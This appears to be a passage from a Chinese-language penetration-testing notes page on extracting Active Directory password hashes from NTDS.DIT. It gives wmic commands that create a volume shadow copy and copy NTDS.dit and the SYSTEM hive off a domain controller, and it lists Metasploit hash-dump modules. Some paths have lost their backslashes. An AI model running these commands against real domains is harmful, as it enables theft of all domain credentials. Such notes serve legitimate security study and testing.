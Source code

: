 ## 域

**相关文章**
- [横向渗透-域渗透 PTT、PTH、PTK](http://1984-0day.com/2020/04/05/%E6%A8%AA%E5%90%91%E6%B8%97%E9%80%8F-%E5%9F%9F%E6%B8%97%E9%80%8F-PTT%E3%80%81PTH%E3%80%81PTK/)
- [我所了解的内网渗透——内网渗透知识大总结](https://www.anquanke.com/post/id/92646#h2-10)

### NTDS.DIT

在域内 HASH 是存在 NTDS.DIT 中的， NTDS.DIT 是一个二进制文件，就等同于本地计算机的 SAM 文件，它的存放位置是 `%SystemRoot%\ntds\NTDS.DIT` 。这里面包含的不只是 Username 和 HASH，还有 OU、Group 等信息。

AD 数据库是 Jet 数据库引擎，它使用提供数据存储和索引服务的可扩展存储引擎（ESE）ESE 级索引使对象属性可以快速定位。

ntds.dit 文件由三个主表组成：数据表，链接表和SD表。

**相关文章**
- [从NTDS.dit获取密码hash的三种方法](https://www.freebuf.com/sectool/176876.html)
- [导出域密码哈希值的多种方法介绍](https://www.freebuf.com/articles/system/177764.html)
- [How Attackers Dump Active Directory Database Credentials](https://adsecurity.org/?p=2398)

#### 利用Dcsync获取域用户Hash

**mimikatz**

mimikatz 的 NTDS.DIT 攻击操作见 [mimikatz 笔记](../../工具/mimikatz.md#ntdsdit)

#### 使用VSS卷影副本提取ntds.dit

卷影副本，也称为快照，是存储在 Data Protection Manager (DPM) 服务器上的副本的时间点副本。副本是文件服务器上单个卷的受保护共享、文件夹和文件的完整时间点副本。

**WMIC**
```
wmic /node:AD /user:PENTESTAdministrator /password:123qweQWE!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"

wmic /node:AD /user:PENTESTadministrator /password:123qwe!@#!@# process call create "cmd /c copy 卷影IDWindowsNTDSNTDS.dit C:windowstempNTDS.dit 2>&1"

wmic /node:AD /user:PENTESTadministrator /password:123qwe!@# process call create "cmd /c copy 卷影IDWindowsSystem32configSYSTEM c:windowstempSYSTEM.hive 2>&1"

net use k: \pentest.comc$
```

**metasploit**
```bash
auxiliary/admin/smb/psexec_ntdsgrab
windows/gather/credentials/domain_hashdump
hashdump
```

**NTDSUtil**

Ntdsutil.exe 是一个为 Active Directory 提供管理设施的命令行工具。

